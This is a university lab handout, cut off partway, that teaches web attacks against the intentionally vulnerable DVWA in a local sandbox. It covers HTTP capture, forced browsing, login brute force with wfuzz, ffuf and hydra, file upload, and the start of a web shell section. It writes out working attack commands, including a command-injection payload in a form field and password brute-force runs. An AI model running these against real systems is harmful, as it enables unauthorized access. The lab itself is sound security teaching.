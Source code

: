 # PB177 – Web Application Attacks – Part II

[[_TOC_]]

## Learning Objectives

At the end of this lab session, you will be able to:
- analyze HTTP GET and POST requests to identify web application vulnerabilities,
- perform forced browsing to enumerate unlinked or hidden resources,
- execute brute force attacks on login pages using HTTP POST requests,
- explore the risks of unrestricted file uploads and their consequences,
- perform and analyze different types of XSS attacks and their exploitation methods,
- perform and analyze a CSRF attack and understand its impact on user trust,
- use ZAP proxy as a MITM to intercept, analyze, and manipulate HTTP traffic.

## Sandbox

In this lab, you will use the [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA), an intentionally insecure web environment designed for learning and practicing web application security. DVWA provides a controlled environment where you can explore and test various web vulnerabilities. This hands-on training will help you build skills in exploiting and defending against common security issues using practical tools and techniques.

## Start the Sandbox

1. Update the repository by running `git pull` in `labs` directory. Go to `6` directory.
1. Login to get access to Podman images: `podman login gitlab.fi.muni.cz:5050`.
1. Run `podman-compose pull` to download images used in this lab.
1. Run `podman-compose up -d`.
1. [Check you can access Kali container using terminal and RDP](../1/index.md#start-the-sandbox). This lab uses three containers, `podman-compose ps -q | wc -l` should display `3`.
1. Setup the DVWA DB: go to http://10.0.0.10/setup.php and click the "Create / Reset Database" button. You should see "Setup successful!".

## Web Attacks

### Task: tshark HTTP Traffic Analysis

Analyze HTTP [GET](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) and [POST](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) requests to DVWA application.

<details>
<summary>
HTTP GET request to performe Brute Force attack in DVWA
</summary>

 * Navigate to the  `Brute Force` page and enter user: `USERNAME` and password: `PASSWORD`

 ```shell-session
root@attacker:~# curl -v -s 'http://10.0.0.10:80/vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login' > /dev/null
 ```

 * Analyze the GET resquest in `tshark`.

 ```shell-session
root@attacker:~# tshark -l -q -n -i eth0 -f "host 10.0.0.10 and port 80" -Y "http" -O http,urlencoded-form  | sed 's/\\r\\n//g'
Running as user "root" and group "root". This could be dangerous.
Warning: program compiled against libxml 212 using older 209
Capturing on 'eth0'
Frame 4: 208 bytes on wire (1664 bits), 208 bytes captured (1664 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:fe, Dst: 02:42:0a:00:00:0a
Internet Protocol Version 4, Src: 10.0.0.254, Dst: 10.0.0.10
Transmission Control Protocol, Src Port: 59200, Dst Port: 80, Seq: 1, Ack: 1, Len: 142
Hypertext Transfer Protocol
    GET /vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login HTTP/1.1
        Request Method: GET
        Request URI: /vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login
            Request URI Path: /vulnerabilities/brute/
            Request URI Query: username=USERNAME&password=PASSWORD&Login=Login
                Request URI Query Parameter: username=USERNAME
                Request URI Query Parameter: password=PASSWORD
                Request URI Query Parameter: Login=Login
        Request Version: HTTP/1.1
    Host: 10.0.0.10
    User-Agent: curl/8.9.1
    Accept: */*

    [Full request URI: http://10.0.0.10/vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login]

Frame 6: 4804 bytes on wire (38432 bits), 4804 bytes captured (38432 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:0a, Dst: 02:42:0a:00:00:fe
Internet Protocol Version 4, Src: 10.0.0.10, Dst: 10.0.0.254
Transmission Control Protocol, Src Port: 80, Dst Port: 59200, Seq: 1, Ack: 143, Len: 4738
Hypertext Transfer Protocol
    HTTP/1.1 200 OK
        Response Version: HTTP/1.1
        Status Code: 200
        [Status Code Description: OK]
        Response Phrase: OK
    Date: Tue, 26 Nov 2024 22:49:01 GMT
    Server: Apache/2.4.62 (Debian)
    X-Powered-By: PHP/8.3.13
    Set-Cookie: security=low; path=/
    Set-Cookie: PHPSESSID=44a3d3c5b49a5ef59d462a3b67b608f4; expires=Wed, 27 Nov 2024 22:49:01 GMT; Max-Age=86400; path=/
    Expires: Tue, 23 Jun 2009 12:00:00 GMT
    Cache-Control: no-cache, must-revalidate
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Length: 4288
        [Content length: 4288]
    Content-Type: text/html;charset=utf-8

    [Request in frame: 4]
    [Time since request: 0.005832375 seconds]
    [Request URI: /vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login]
    [Full request URI: http://10.0.0.10/vulnerabilities/brute/?username=USERNAME&password=PASSWORD&Login=Login]
    File Data: 4288 bytes
Line-based text data: text/html (110 lines)
 ```
</details>

<details>
<summary>
HTTP POST request to performe Command Injection attack in DVWA
</summary>

 * Navigate to the  `Command Injection` page and enter `10.0.0.254; cat /etc/os-release`

 ```shell-session
root@attacker:~# curl -s -v -X POST -d 'ip=10.0.0.254; cat /etc/os-release&Submit=Submit' http://10.0.0.10:80/vulnerabilities/exec/ | lynx -nolist -dump -stdin
 ```

 * Analyze the POST resquest in `tshark`.

 ```shell-session
root@attacker:~# tshark -l -q -n -i eth0 -f "host 10.0.0.10 and port 80" -Y "http.request.method == POST || http.response" -O http,urlencoded-form  | sed 's/\\r\\n//g'
Running as user "root" and group "root". This could be dangerous.
Warning: program compiled against libxml 212 using older 209
Capturing on 'eth0'
Frame 4: 277 bytes on wire (2216 bits), 277 bytes captured (2216 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:fe, Dst: 02:42:0a:00:00:0a
Internet Protocol Version 4, Src: 10.0.0.254, Dst: 10.0.0.10
Transmission Control Protocol, Src Port: 49398, Dst Port: 80, Seq: 1, Ack: 1, Len: 211
Hypertext Transfer Protocol
    POST /vulnerabilities/exec/ HTTP/1.1
        Request Method: POST
        Request URI: /vulnerabilities/exec/
        Request Version: HTTP/1.1
    Host: 10.0.0.10
    User-Agent: curl/8.9.1
    Accept: */*
    Content-Length: 48
        [Content length: 48]
    Content-Type: application/x-www-form-urlencoded

    [Full request URI: http://10.0.0.10/vulnerabilities/exec/]
    File Data: 48 bytes
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "ip" = "10.0.0.254; cat /etc/os-release"
        Key: ip
        Value: 10.0.0.254; cat /etc/os-release
    Form item: "Submit" = "Submit"
        Key: Submit
        Value: Submit

Frame 6: 5400 bytes on wire (43200 bits), 5400 bytes captured (43200 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:0a, Dst: 02:42:0a:00:00:fe
Internet Protocol Version 4, Src: 10.0.0.10, Dst: 10.0.0.254
Transmission Control Protocol, Src Port: 80, Dst Port: 49398, Seq: 1, Ack: 212, Len: 5334
Hypertext Transfer Protocol
    HTTP/1.1 200 OK
        Response Version: HTTP/1.1
        Status Code: 200
        [Status Code Description: OK]
        Response Phrase: OK
    Date: Wed, 27 Nov 2024 05:46:46 GMT
    Server: Apache/2.4.62 (Debian)
    X-Powered-By: PHP/8.3.13
    Set-Cookie: security=low; path=/
    Set-Cookie: PHPSESSID=bedf0e58ef70597881abe564c2c4833c; expires=Thu, 28 Nov 2024 05:46:46 GMT; Max-Age=86400; path=/
    Expires: Tue, 23 Jun 2009 12:00:00 GMT
    Cache-Control: no-cache, must-revalidate
    Pragma: no-cache
    Vary: Accept-Encoding
    Content-Length: 4884
        [Content length: 4884]
    Content-Type: text/html;charset=utf-8

    [Request in frame: 4]
    [Time since request: 3.074000251 seconds]
    [Request URI: /vulnerabilities/exec/]
    [Full request URI: http://10.0.0.10/vulnerabilities/exec/]
    File Data: 4884 bytes
Line-based text data: text/html (128 lines)
```

</details>

### Task: Forced Browsing Attack

[Forced browsing](https://owasp.org/www-community/attacks/Forced_browsing) is an attack where the aim is to enumerate and access resources that are not referenced by the application, but are still accessible. This attack is performed manually when the application index directories and pages are based on predictable values, or using automated tools for common files and directory names.

<details>
<summary>
Forced browsing attack using wfuzz
</summary>

 * Use `wfuzz` with the wordlist `/usr/share/wordlists/wfuzz/general/test.txt`, enable colored output (`-c`), set verbosity (`-v`), and use a single connection to access the web server (`-t 1`).

```shell-session
root@attacker:~# wfuzz -c -v -t 1 -w /usr/share/wordlists/wfuzz/general/test.txt -u http://10.0.0.10/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10/FUZZ
Total requests: 10

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload
====================================================================================================================================================

000000001:   0.002s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "classes"
000000003:   0.000s       301        9 L        28 W     305 Ch      Apache/2.4.62 (Debian)           http://10.0.0.10/docs/           "docs"
000000005:   0.000s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "images"
000000002:   0.001s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "css"
000000004:   0.001s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "environment"
000000006:   0.000s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "includes"
000000008:   0.001s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "prueba"
000000010:   0.000s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "test"
000000007:   0.001s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "master"
000000009:   0.000s       404        9 L        31 W     271 Ch      Apache/2.4.62 (Debian)                                            "scripts"
 ```

* Check the meanings of the HTTP response status codes [301](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/301) and [404](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/404). A description of all status codes is available [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status).
* Add the new `--hc` parameter to wfuzz to filter out 404 responses.
* Change the wordlist to `/usr/share/wordlists/dirb/big.txt` and check the meaning of any newly discovered response codes (e.g., 200, 301, 403).

</details>


<details>
<summary>
Find the login page for the DVWA application.
</summary>

 * Change the `FUZZ` parameter to `FUZZ.php` and search for the DVWA login page written in PHP.

 ```shell-session
root@attacker:~# wfuzz -c -v -t 1 --hc 404 -w /usr/share/wordlists/dirb/big.txt -u http://10.0.0.10/FUZZ.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10/FUZZ.php
Total requests: 20469

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload
====================================================================================================================================================

000000015:   0.001s       403        9 L        28 W     274 Ch      Apache/2.4.62 (Debian)                                            ".htaccess"
000000016:   0.001s       403        9 L        28 W     274 Ch      Apache/2.4.62 (Debian)                                            ".htpasswd"
000001586:   0.004s       200        122 L      427 W    5273 Ch     Apache/2.4.62 (Debian)                                            "about"
000009563:   0.002s       200        114 L      648 W    6007 Ch     Apache/2.4.62 (Debian)                                            "index"
000009752:   0.010s       200        548 L      4677 W   38669 Ch    Apache/2.4.62 (Debian)                                            "instructions"
000011054:   0.005s       200        74 L       116 W    1342 Ch     Apache/2.4.62 (Debian)                                            "login"
000011077:   0.001s       302        0 L        0 W      0 Ch        Apache/2.4.62 (Debian)           login.php                        "logout"
000013817:   0.002s       200        888 L      4852 W   79324 Ch    Apache/2.4.62 (Debian)                                            "phpinfo"
000016105:   0.002s       200        108 L      416 W    4561 Ch     Apache/2.4.62 (Debian)                                            "security"
000016262:   0.003s       200        140 L      463 W    5221 Ch     Apache/2.4.62 (Debian)                                            "setup"
 ```
* What is the name of the login page? Which page redirects to the login page? Click on this page in the DVWA menu in the Firefox browser to display the login form.
* Change the wordlist to `/usr/share/wordlists/wfuzz/general/admin-panels.txt`, which is more appropriate for guessing the login page, and use the `FUZZ` parameter. Then, run `wfuzz` again with these new settings to test it.
</details>


<details>
<summary>
Bonus Task: Discover the DVWA login page using ffuf.
</summary>

 * `ffuf` uses similar parameters to `wfuzz` and, by default, displays responses for status codes 200–299, 301, 302, 307, 401, 403, 405, and 500.

 ```shell-session
root@attacker:~# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.0.0.10/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.10/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 288ms]
config                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 0ms]
database                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 6ms]
docs                    [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 3ms]
external                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 6ms]
favicon.ico             [Status: 200, Size: 1406, Words: 5, Lines: 2, Duration: 2ms]
robots.txt              [Status: 200, Size: 25, Words: 3, Lines: 2, Duration: 2ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 0ms]
tests                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 7ms]
 ```

 * Extend the `FUZZ` keyword using the `-e` option to include `.php` files in the search.

 ```shell-session
 root@attacker:~# ffuf -c -e .php -w /usr/share/wordlists/dirb/big.txt -u http://10.0.0.10/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.0.10/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Extensions       : .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 0ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1ms]
.htaccess.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 1ms]
about.php               [Status: 200, Size: 5273, Words: 337, Lines: 123, Duration: 8ms]
config                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 1ms]
database                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 1ms]
docs                    [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 0ms]
external                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 3ms]
favicon.ico             [Status: 200, Size: 1406, Words: 5, Lines: 2, Duration: 0ms]
index.php               [Status: 200, Size: 6007, Words: 564, Lines: 115, Duration: 8ms]
instructions.php        [Status: 200, Size: 38715, Words: 4309, Lines: 549, Duration: 46ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4ms]
login.php               [Status: 200, Size: 1342, Words: 77, Lines: 75, Duration: 20ms]
phpinfo.php             [Status: 200, Size: 79117, Words: 3988, Lines: 886, Duration: 32ms]
robots.txt              [Status: 200, Size: 25, Words: 3, Lines: 2, Duration: 2ms]
security.php            [Status: 200, Size: 4561, Words: 339, Lines: 109, Duration: 15ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 0ms]
setup.php               [Status: 200, Size: 5221, Words: 357, Lines: 141, Duration: 4ms]
tests                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 1ms]
```

* Add the new `-mc` parameter to ffuf to display 200 responses. HTTP 200 OK indicates a successful request, meaning the server has successfully processed and returned the requested page.
* Use additional options (e.g., `-v`), wordlists, and modifications to the FUZZ keyword to practice with ffuf.
</details>

### Task: Brute Force Using wfuzz and ffuf

In this task, you will perform a brute force attack on the DVWA login page using the HTTP POST method to send data to the web server.

<details>
<summary>
Brute force attack using wfuzz
</summary>
 
 * Start `tshark` to capture network traffic sent by the attacker to the DVWA web server. The login page uses the HTTP POST method to transmit data to the server. Apply a tshark capture filter to monitor outgoing traffic and a display filter to show HTTP POST requests. Open the login page in Firefox and log in with the username `USERNAME` and password `PASSWORD`.

```shell-session
root@attacker:~# tshark -l -q -n -i eth0 -f "dst host 10.0.0.10" -Y "http.request.method == POST" -O http,urlencoded-form  | sed 's/\\r\\n//g'
Running as user "root" and group "root". This could be dangerous.
Warning: program compiled against libxml 212 using older 209
Capturing on 'eth0'
Frame 19: 706 bytes on wire (5648 bits), 706 bytes captured (5648 bits) on interface eth0, id 0
Ethernet II, Src: 02:42:0a:00:00:fe, Dst: 02:42:0a:00:00:0a
Internet Protocol Version 4, Src: 10.0.0.254, Dst: 10.0.0.10
Transmission Control Protocol, Src Port: 53104, Dst Port: 80, Seq: 1, Ack: 1, Len: 640
Hypertext Transfer Protocol
    POST /login.php HTTP/1.1
        Request Method: POST
        Request URI: /login.php
        Request Version: HTTP/1.1
    Host: 10.0.0.10
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 91
        [Content length: 91]
    Origin: http://10.0.0.10
    DNT: 1
    Connection: keep-alive
    Referer: http://10.0.0.10/login.php
    Cookie: security=low; PHPSESSID=fac4fa2c1fe4180e53f8e853fd72680e
        Cookie pair: security=low
        Cookie pair: PHPSESSID=fac4fa2c1fe4180e53f8e853fd72680e
    Upgrade-Insecure-Requests: 1

    [Full request URI: http://10.0.0.10/login.php]
    File Data: 91 bytes
HTML Form URL Encoded: application/x-www-form-urlencoded
    Form item: "username" = "USERNAME"
        Key: username
        Value: USERNAME
    Form item: "password" = "PASSWORD"
        Key: password
        Value: PASSWORD
    Form item: "Login" = "Login"
        Key: Login
        Value: Login
    Form item: "user_token" = "965cfab701508a1e43ed74f7dcf841e5"
        Key: user_token
        Value: 965cfab701508a1e43ed74f7dcf841e5
```

* Craft a valid `curl` command using the POST method and valid credentials, based on the data observed in `tshark`.

```shell-session
root@attacker:~# curl -s -v -X POST -d 'username=admin&password=password&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' http://10.0.0.10:80/login.php
```

* What is the value of the [**HTTP Location**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Location) response header for: a) a successful login with valid credentials, and b) a failed login? What parameters must be correctly set to log in to DVWA?

* Select a string from the web page shown after a successful login that we will use with the `--ss` option to verify that we have successfully logged in.

* Create a `wordlist.txt` file containing both valid and invalid passwords.
```shell-session
wrong-password
password
```

* Craft a valid `wfuzz` command to brute force the admin's password.
```shell-session
root@attacker:~# wfuzz -c -v -t 1 -w wordlist.txt --ss 'Welcome' -d 'username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' -u http://10.0.0.10:80/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10:80/login.php
Total requests: 2

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload
====================================================================================================================================================

```

* `wfuzz` failed to find a password. You need to analyze the traffic generated by `wfuzz` using `tshark` to identify what might be wrong with the command. Does wfuzz read the content of the index.php page after login? No, wfuzz does not follow links or read the content of the `index.php` page, which displays the message: **Welcome to Damn Vulnerable Web Application!**

* Let's try following HTTP redirections with `wfuzz` using the `-L` option, and then analyze the `wfuzz` traffic with `tshark` again.

```shell-session
root@attacker:~# wfuzz -L -c -v -t 1 -w wordlist.txt --ss 'Welcome' -d 'username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' -u http://10.0.0.10:80/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.10:80/login.php
Total requests: 2

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload
====================================================================================================================================================

000000002:   0.008s       200        114 L      648 W    6007 Ch     Apache/2.4.62 (Debian)           (*) http://10.0.0.10:80/index.   "password"
                                                                                                      php
```
</details>

<details>
<summary>
Brute force attack using ffuf
</summary>

* We are already familiar with the key options of `wfuzz` and the behavior of the login page. Now, let's craft a valid `ffuf` command to brute-force the admin's password.

```shell-session
root@attacker:~# ffuf -r -c -v -t 1 -w wordlist.txt --mr 'Welcome' -d 'username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' -u http://10.0.0.10:80/login.php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.0.0.10:80/login.php
 :: Wordlist         : FUZZ: /root/wordlist.txt
 :: Data             : username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Matcher          : Regexp: Welcome
________________________________________________

:: Progress: [2/2] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

* `ffuf` failed to find a password, so we need to compare the network traffic generated by `wfuzz` and `ffuf` to identify the issue. For a quick overview, we will use the `ngrep` tool. The following [HTTP POST requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST#examples) were captured:

```shell-session
root@attacker:~# ngrep -q -l -W byline "POST" dst port 80 | sed 's/\.$//'
interface: eth0 (10.0.0.0/255.255.0.0)
filter: ( dst port 80 ) and ((ip || ip6) || (vlan && (ip || ip6)))
match (JIT): POST

T 10.0.0.254:54624 -> 10.0.0.10:80 [AP] #7
POST /login.php HTTP/1.1
Host: 10.0.0.10:80
Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Wfuzz/3.1.0
Content-Length: 88

username=admin&password=password&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5

T 10.0.0.254:43670 -> 10.0.0.10:80 [AP] #16
POST /login.php HTTP/1.1
Host: 10.0.0.10:80
User-Agent: Fuzz Faster U Fool v2.1.0-dev
Content-Length: 88
Accept-Encoding: gzip

username=admin&password=password&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5
```

* Is something missing in the `ffuf` headers? Yes, `ffuf` does not include `Content-Type: application/x-www-form-urlencoded` in the HTTP headers, as explained [here](https://github.com/ffuf/ffuf/issues/754). Add the Content-Type header and try again.

```shell-session
root@attacker:~# ffuf -r -c -v -t 1 -w wordlist.txt --mr 'Welcome' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5' -u http://10.0.0.10:80/login.php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.0.0.10:80/login.php
 :: Wordlist         : FUZZ: /root/wordlist.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 1
 :: Matcher          : Regexp: Welcome
________________________________________________

[Status: 200, Size: 6007, Words: 564, Lines: 115, Duration: 1ms]
| URL | http://10.0.0.10:80/login.php
    * FUZZ: password
```
</details>

<details>
<summary>
Bonus Task: Brute force attack using hydra.
</summary>

* We will use the `http-post-form` module to fill out the web form. Review its description using `hydra -U http-post-form`, and craft a valid command based on the information we already have.

 ```shell-session
root@attacker:~# hydra -t 1 -f -l admin -P wordlist.txt 'http-post-form://10.0.0.10:80/login.php:username=admin&password=^PASS^&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5:S=Welcome'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-28 06:39:04
[DATA] max 1 task per 1 server, overall 1 task, 3 login tries (l:1/p:3), ~3 tries per task
[DATA] attacking http-post-form://10.0.0.10:80/login.php:username=admin&password=^PASS^&Login=Login&user_token=965cfab701508a1e43ed74f7dcf841e5:S=Welcome
[80][http-post-form] host: 10.0.0.10   login: admin   password: password
 ```

* Use `tshark` and `ngrep` to analyze the traffic generated by `hydra` during the brute-forcing of the admin's password.
</details>

### Task: Unrestricted File Upload Attack

Unrestricted file upload [[PortSwigger](https://portswigger.net/web-security/file-upload), [OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)] attack poses a significant risk to web applications, allowing an attacker to deliver malicious code to a target system as the first step. The potential consequences include complete system takeover, file system overload, backend system attacks, or website defacement.

<details>
<summary>
Unrestricted file upload
</summary>
 
 * Use `curl` or `Firefox` to access the File Upload page in DVWA and examine the upload form parameters. This will allow you to identify the fields required for uploading a file.

```shell-session
root@attacker:~# curl -s http://10.0.0.10:80/vulnerabilities/upload/ | grep -A 7 'method='
		<form enctype="multipart/form-data" action="#" method="POST">
			<input type="hidden" name="MAX_FILE_SIZE" value="100000" />
			Choose an image to upload:<br /><br />
			<input name="uploaded" type="file" /><br />
			<br />
			<input type="submit" name="Upload" value="Upload" />

		</form>
```
* Create a `curl` command to upload the `wordlist.txt` file to the web server. For submitting form data, especially when uploading files, the HTTP POST method uses the [multipart/form-data](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST#multipart_form_submission) content type. Use the `-F` parameter in `curl` to specify the form data.

```shell-session
root@attacker:~# curl -X POST -F "MAX_FILE_SIZE=100000" -F "uploaded=@wordlist.txt" -F "Upload=Upload" http://10.0.0.10:80/vulnerabilities/upload/ | lynx -nolist -dump -stdin
...
Vulnerability: File Upload

   Choose an image to upload:

   Upload
../../hackable/uploads/wordlist.txt succesfully uploaded!
```
* The `wordlist.txt` file was successfully uploaded to the server at `../../hackable/uploads/wordlist.txt`.

* Use `curl` to download the uploaded file and verify its content.

```shell-session
root@attacker:~# curl http://10.0.0.10:80/vulnerabilities/upload/../../hackable/uploads/wordlist.txt
wrong-password
password
```

* The URL `http://10.0.0.10:80/vulnerabilities/upload/../../hackable/uploads/wordlist.txt` contains redundant parts (`vulnerabilities/upload/../../`) that can be simplified. This is due to the `../` syntax, which moves up one directory in the file path. The clean and equivalent URL is `http://10.0.0.10:80/hackable/uploads/wordlist.txt`.

```shell-session
root@attacker:~# curl http://10.0.0.10:80/hackable/uploads/wordlist.txt
wrong-password
password
```
</details>

<details>
<summary>
Web shell attack
</summary>

* Identify the scripting language used by DVWA by fingerprinting the web server. Use the `curl -I` option to inspect the [HTTP response headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD) and look for any indicators (e.g., [X-Powered-By](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html#x-powered-by)) that may reveal the server's scripting language. Additionally, analyze the URLs and file extensions in the response (see task on forced browsing) to make inferences about the scripting language (e.g., .php, .py, .html).

```shell-session
root@attacker:~# curl -I 10.0.0.10
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 15:50:56 GMT
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.3.13
Set-Cookie: security=low; path=/
